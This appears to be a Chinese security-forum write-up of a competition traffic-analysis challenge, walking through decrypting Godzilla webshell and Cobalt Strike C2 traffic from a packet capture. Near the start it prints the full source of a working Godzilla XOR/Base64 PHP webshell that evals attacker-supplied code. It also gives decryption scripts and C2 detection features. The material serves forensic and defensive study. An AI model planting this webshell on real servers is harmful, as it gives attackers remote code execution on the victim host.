# 从一个流量样本学习webshell及CS流量的解密与分析-先知社区

> **来源**: https://xz.aliyun.com/news/18953  
> **文章ID**: 18953

---

# 流量样本

流量样本来源于最近参加的2025年“泰山杯”山东省网络安全大赛C组数据安全赛道的题目，涉及到webshell流量、cs流量的解密及分析，感觉跟实战很接近，和各位师傅分享下分析思路。

链接：<https://pan.quark.cn/s/3cee524b9a68?pwd=iaRB>

提取码：iaRB

# 哥斯拉流量识别

打开流量包，首先看一下协议分级：



占大头的是TCP流量，除了http，还有一小部分tls。

我们直接追踪TCP流：

一开始攻击者在做一些目录扫描：



追踪到流78的时候发现攻击者探测到一个文件上传的靶场，存在文件上传漏洞：



追踪到流81的时候，发现已经开始传webshell了，这里上传了一个shell.php：



其完整代码如下：

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='suger';
$payloadName='payload';
$key='a5717a649d346ed0';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

这是一个XOR\_BASE64类型的哥斯拉webshell，加密方式是 Base64 + 异或加密，pass='suger'，key='a5717a649d346ed0'。

**XOR\_BASE64类型的哥斯拉连接后的第一个请求包形式为pass名=加密数据，是一个握手包，握手包的请求数据会比较大，且请求头不带cookie，****响应包不含任何数据，但是会设置PHPSESSID，后续请求的请求头都会自动带上该Cookie。**因为这里pass='suger'，所以第一个包应该是suger=加密数据的形式：





后面的包请求包就会比较小了，请求包内容也是**pass名=加密数据**，返回包内容也是固定的格式，**前后为16位md5值，中间为32位加密字符串**。



哥斯拉页面配置中header中有三个固定值，user-agent,accept,accept-language。该弱特征也可作为检测。



# 哥斯拉流量的解密

根据上面分析的哥斯拉的流量特征，我们可以写出PHP\_XOR\_BASE64哥斯拉解密的脚本， 先对请求或响应中 Base64 编码的内容进行 Base64 解码，然后使用固定 16 字节的 XOR 循环 key 对每个字节按循环方式逐一异或解密，若是响应报文还需先去掉前后固定长度（16位）的 MD5 校验，解密后的结果即为明文命令或数据。

写一个通用的解密脚本，支持以下功能：

* **请求报文解密**（去掉 pass=... → URL 解码 → Base64 解码 → 异或）
* **响应报文解密**（去掉前16/后16字节 → Base64 解码 → 异或）
* **支持直接输出文本文件或者输出原始字节流**（比如 zip）

```
import base64
import urllib.parse
import sys

key = b"a5717a649d346ed0"   # PHP 里的 key
pass_name = "suger"         # 自定义 pass 名称

def encode(data: bytes, key: bytes) -> bytes:
    out = bytearray(data)
    for i in range(len(out)):
        out[i] ^= key[(i + 1) & 15]
    return bytes(out)

def decrypt_request(raw_data: str) -> bytes:
    raw_data = urllib.parse.unquote_plus(raw_data.strip())
    if raw_data.startswith(f"{pass_name}="):
        raw_data = raw_data[len(pass_name)+1:]
    encrypted = base64.b64decode(raw_data)
    return encode(encrypted, key)

def decrypt_response(raw_data: str) -> bytes:
    raw_data = raw_data.strip()
    enc_data_b64 = raw_data[16:-16]
    encrypted = base64.b64decode(enc_data_b64)
    return encode(encrypted, key)

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print(f"用法: {sys.argv[0]} <mode> <file> [--raw]")
        print("模式:")
        print("  req-dec   解密请求报文")
        print("  resp-dec  解密响应报文")
        print("选项:")
        print("  --raw     输出原始字节流")
        sys.exit(1)

    mode = sys.argv[1]
    infile = sys.argv[2]
    raw_output = ("--raw" in sys.argv)

    with open(infile, "r") as f:
        raw_data = f.read()

    if mode == "req-dec":
        plain = decrypt_request(raw_data)
    elif mode == "resp-dec":
        plain = decrypt_response(raw_data)
    else:
        print("[-] 未知模式:", mode)
        sys.exit(1)

    if raw_output:
        sys.stdout.buffer.write(plain)
    else:
        print(plain.decode("utf-8", errors="replace"))

```

**使用方法**

1. **解密请求报文（输出文本）**

```
python3 哥斯拉解密.py req-dec request.txt
```

2. **解密响应报文（输出文本）**

```
python3 哥斯拉解密.py resp-dec response.txt
```

3. **解密并输出原始字节流（比如 zip）**

```
python3 哥斯拉解密.py resp-dec response.txt --raw > output.bin
```

回到题目样本中，题目的第一问是：



题目中所说的压缩包就在哥斯拉的加密传输流量中，我么用大小排序，把最大的那个导出来：





用上面的解密脚本：python3 哥斯拉解密.py req-dec ./request/request.txt --raw > ./response/1.bin

成功提取到bin文件，可以看到里面有一个压缩包，压缩包里面有一个被加密保护的文件ac7208120ce03c658a83563fda81b469.jpg，将前面多余的数据删除，修复压缩包的文件头，提取到压缩包：





# CS流量识别

第二题的题目描述：



我们追踪到流80的时候可以看到在传输一个压缩包，里面有名称疑似Cobalt Strike的私钥文件：



我们将私钥文件提取出来。



那么其中肯定有CS的流量了，我们先来复习下CS流量的特征：

## CS 基本工作流程

Cobalt Strike 采用 C/S（客户端/服务器）架构，主要包含 TeamServer（服务端）、Client（客户端）和 Beacon（被控端代理）三个角色。

其主要通信过程可以概括为：

**1、初始投递与stager下载：**攻击者通过钓鱼邮件/漏洞投递恶意载荷，被攻击服务器执行初始代码向TeamServer请求完整Beacon

**2、Beacon 定期向 TeamServer 发送心跳包**：这些心跳包不仅表明被控端在线，还可能包含主机信息

**3、TeamServer 响应心跳包**：TeamServer 收到心跳包后，会检查是否有需要下发给该 Beacon 的任务指令

**4、指令执行与结果回传**：若有任务，TeamServer 会将其返回给 Beacon。Beacon 在目标主机上执行任务后，再将结果数据回传给 TeamServer

## 各阶段流量特征详解

|  |  |  |
| --- | --- | --- |
| 攻击阶段 | 关键流量特征 | 防御检测建议 |
| **初始投递与Stager下载** | HTTP GET请求，路径符合checksum8算法（32位结果为92，64位结果为93）  。路径常为4-5位随机字母数字组合（如/Yle2, /FJwV）。 | 监控异常域名或IP的HTTP请求，实时计算URI的checksum8值（92/93告警）  。 |
|  | **User-Agent字符串异常**：可能存在拼写错误（如"WIndows NI"）、非常见写法（"W0W64"）或异常参数（"0 B01IE8\_v1"）  。 | 建立User-Agent白名单机制，监控偏离已知合法客户端的请求  。 |
|  | **响应包含PE头**：Stager请求的响应包中，Content-Type为application/octet-stream，内容包含PE文件头（MZ）及可执行代码  。 | 检测从外部服务器下载的可执行内容（如MZ头）  。 |
| **Beacon上线与心跳** | **周期性心跳请求**：Beacon以固定时间间隔（默认60秒）向C2服务器发送GET请求（如/load），请求和响应数据长度可能高度一致  。 | 监控规律性的、固定间隔的外连请求，特别是响应长度高度一致的通信  。 |
|  | **Cookie中含加密元数据**：心跳请求的Cookie字段携带**长Base64字符串**（x64约344字符，x86约172字符），内含使用TeamServer RSA公钥加密的主机信息（用户名、主机名、进程名等）  。 | 监控Cookie或POST数据中异常长的Base64字符串，并结合其周期性出现的行为进行判断  。 |
|  | **JA3/JA3s指纹**：使用HTTPS时，SSL/TLS握手过程中的JA3（客户端）和JA3s（服务器）指纹可能是固定值（如Windows 10 HTTPS Beacon的JA3可能为28a2c9bd18a11de089ef85a160da29e4），这是无法通过配置Profile文件修改的强特征  。 | 利用网络监控工具提取和识别SSL/TLS握手包中的JA3/JA3s指纹，并与已知的C2工具指纹库进行比对  。 |
|  | **证书特征**：使用默认配置时，SSL证书的Issuer CN和Subject CN均为Major Cobalt Strike，极易被识别  。 | 检查SSL连接中的证书信息，比对是否与已知的恶意证书匹配  。 |
| **指令控制与任务执行** | **POST请求回传数据**：Beacon执行命令后，常通过HTTP **POST请求**（路径可能包含/submit.php?id=xxx）回传数据，数据通常经过AES加密  。 | 监控异常的POST请求，特别是向外部服务器发送加密或高熵数据的连接  。 |
|  | **执行指令时心跳包长度突变**：当C2服务器下发任务指令时，心跳包响应数据的长度可能会显著增加（甚至突增300%以上）  。 | 建立正常业务流量基线，监控心跳包或特定请求响应长度的异常波动  。 |
| **横向移动与数据渗出** | **内网协议流量异常**：利用Cobalt Strike信标中的jump winrm等功能进行横向移动时，可能会产生异常的SMB、RDP或WinRM协议流量  。 | 监控内网中异常出现的协议连接（如主机间非常见的SMB连接）  。 |
|  | **数据渗出阶段流量激增**：在数据窃取阶段，可能会观察到**大流量数据**（如通过HTTP POST）向外部服务器传输，Content-Length较大  。 | 监控异常的外传数据流量，特别是非业务时间或来自非业务主机的大规模数据外传  。 |

# CS流量的解密和分析

## beacon逆向

接下来我们在流量包中查找被控主机向CS服务器请求下载完整beacon的路径，尝试将beacon下载下来。在wireshark过滤器中输入http.request.uri matches "/....$"筛选一下：



找到了用来发送GET请求来下载整个beacon的路径，包含满足以下条件的4个字符： 字符值之和的字节值是一个已知的常数（checksum8算法）。



我们把beacon下载下来：



用工具<https://blog.didierstevens.com/2021/10/11/update-1768-py-version-0-0-8/>逆向分析一下：



首先，这是个HTTP类型的beacon：它是通过HTTP传输数据。

这个beacon通过HTTP连接到192.168.33.143(option 0x0008)端口8080(选项0x0002).

GET请求使用的路径为 /ptj（选项0x0008)，POST请求使用的路径为 /submit.php（option 0x000a）

这个beacon会发送GET请求到团队服务器，等待下一步的指示。如果团队服务器有需要这个beacon执行的命令，这个beacon就会通过加密的数据发送GET请求进行回复。当beacon要发送命令执行后的结果到团队服务器，它就会将数据进行加密并使用POST请求发送。

## CS加密流量解密

### 解密思路/流程



#### 获取解密密钥

解密CS流量的核心在于获取加密密钥，主要有以下两种思路：

**1、获取RSA私钥（从TeamServer）**

Cobalt Strike TeamServer在首次运行时会在其目录下生成一个名为 .cobaltstrike.beacon\_keys的文件这个文件是 **Java序列化对象**，存储了用于加密Beacon与C2通信元数据的RSA密钥对（公钥和私钥）。如果你能获得这个文件（例如通过溯源获取了攻击者的TeamServer），就可以直接提取私钥。

* **提取公私钥**：可以使用 **javaobj** 等Python库解析 .cobaltstrike.beacon\_keys文件，提取出PEM格式的RSA公钥和私钥。
* **解密元数据**：Beacon上线时发送的**元数据**（通常存放在HTTP Cookie或POST数据中，经过Base64编码）是使用TeamServer的RSA公钥加密的。用对应的私钥解密这段元数据后，可以得到一个16字节的随机密钥（Raw Key）。
* **推导会话密钥**：将这16字节的Raw Key进行SHA-256哈希运算，得到的哈希值**前16字节作为AES密钥，后16字节作为HMAC密钥。**这两个密钥用于加密和校验后续所有的C2通信数据。

**2、从内存转储中提取密钥（从受害主机）**

如果无法获取TeamServer的私钥文件，另一种思路是从已注入Beacon的**受害主机进程内存**中提取密钥。

* **获取内存转储**：在发现可疑进程（如被注入的rundll32.exe、mshta.exe等）后，可以使用 **Sysinternals Procdump** 或类似工具创建该进程的**内存转储**（Dump）。建议使用 procdump -mp <pid>命令来获取包含可写内存的转储。
* **在内存中搜索密钥**：对于 **Cobalt Strike 3.x**：可以在内存中搜索未加密的元数据，其特征是通常以 **0x0000BEEF** 开头 。找到后，同样可以提取出16字节的Raw Key并计算SHA-256来得到AES和HMAC密钥；对于 **Cobalt Strike 4.x**：元数据头特征不再存在，因此难以直接定位。通常需要将内存中所有可能的16字节非空序列作为候选密钥，通过**碰撞尝试**解密捕获到的C2通信数据包，直到成功解密为止。这是一个计算量较大的过程。

#### 解密流量

获得AES密钥和HMAC密钥后，就可以使用专门的工具（如 **Didier Stevens 套件中的 cs-parse-http-traffic.py**或其他解密脚本）来解密捕获到的网络流量包（如 .pcap文件）。这些工具会使用你提供的密钥对通信数据进行解密和验证。

##### 一些特殊情况

* **破解版的密钥复用**：互联网上部分Cobalt Strike服务器使用的是**破解版**，这些破解版可能共享了相同的 .cobaltstrike.beacon\_keys文件。这意味着，在某些情况下，你可能可以直接使用已知的私钥来解密流量，而无需攻击者的特定密钥。
* **DNS流量解密**：Cobalt Strike也支持通过DNS协议进行C2通信。DNS信标的加密原理与HTTP类似，但编码方式不同（例如，数据可能编码在TXT记录的Base64字符串中，或A记录、AAAA记录的IP地址经过异或运算后）。解密DNS流量同样需要先获取AES和HMAC密钥，解密过程与HTTP流量相似。
* **内存保护**：高级攻击者可能会配置Beacon，使其在空闲时对内存进行编码，这会增加从内存中提取密钥的难度。

### 解密实战

#### 获取会话密钥

回到题目，我们想要的压缩包的密码应该就在这些CS流量加密的数据中：



我们创建一个过滤器来查看CS数据流：http and ((ip.src == 192.168.33.143 and ip.dst == 192.168.33.142) or (ip.src == 192.168.33.142 and ip.dst == 192.168.33.143))



过滤出来的结果显示了几组GET /ptj的请求，还有几组POST /submit.php?id=xxx的请求（执行命令的请求）。

请求的cookie中含有元数据，元数据解密后可以推导出会话密钥方便后续解密CS的加密流量：



```
COqHjGXBGBLBSaR4HNHCDXQ786ES6WdwZTyai0ooSV6DGc0ZFXoGr4v+bTxCivZeptBp72cApufj9T4ff1lpb0PoIjLtcOu/qTribyQPyRQJ/N3KHpBs47O4/EAy43Bl9AUORn9Kmvpoqzr76zkhXuJdNbn7mm6m/LR13Dfqbos=
```

用cs-decrypt-metadata.py工具<https://blog.didierstevens.com/2021/10/22/new-tool-cs-decrypt-metadata-py/>解密，上面我们已经在流量包中拿到了CS的私钥文件（选项-f CS的私钥文件路径），因此命令为

```
python3 cs-decrypt-metadata.py -f C:\download\1758378387.6662319\.cobaltstrike.beacon_keys COqHjGXBGBLBSaR4HNHCDXQ786ES6WdwZTyai0ooSV6DGc0ZFXoGr4v+bTxCivZeptBp72cApufj9T4ff1lpb0PoIjLtcOu/qTribyQPyRQJ/N3KHpBs47O4/EAy43Bl9AUORn9Kmvpoqzr76zkhXuJdNbn7mm6m/LR13Dfqbos=
```



得到 Raw key: b0dbd2e724e2a68105ba599a1ad8f30d

aeskey: e2d919d0bff758aeb1167e38ff293edf

hmackey: 25a496ed7274cb32d46d600205781afb

得到Raw key是重要的一步，后面我们要使用它进行解密流量。

#### 解密流量

我们追踪TCP流，流91是CS建立连接后的第一个GET请求，可以看到请求包和响应包都是空的，说明此时服务端没有想让被控的主机执行的命令：



我们继续往后追踪，流92可以看到终于有了返回，返回包的内容就是CS的服务端想要被控主机执行的命令，



流93的POST请求是在返回命令执行的结果：



上面的body内容都是加密的，我们用工具cs-parse-http-traffic.py <https://github.com/DidierStevens/Beta/blob/master/cs-parse-http-traffic.py>进行解密。

我们需要提供原始密钥（选项-r Raw key），并且由于数据包还包含除Cobalt Strike流量之外的其他流量，最好提供一个显示过滤器（ 选项-Y http and ((ip.src == 192.168.33.143 and ip.dst == 192.168.33.142) or (ip.src == 192.168.33.142 and ip.dst == 192.168.33.143)) ），以便该工具可以忽略所有非C2流量的HTTP流量。命令为：

```
python3 cs-parse-http-traffic.py -r b0dbd2e724e2a68105ba599a1ad8f30d -Y "http and ((ip.src == 192.168.33.143 and ip.dst == 192.168.33.142) or (ip.src == 192.168.33.142 and ip.dst == 192.168.33.143))" attack.pcapng
```

经过解密可以看到，一开始CS服务端要求被控主机执行了ipconfig并返回了结果：



还执行了whoami



我们想要的压缩包密码也在里面



成功解压出压缩包



​
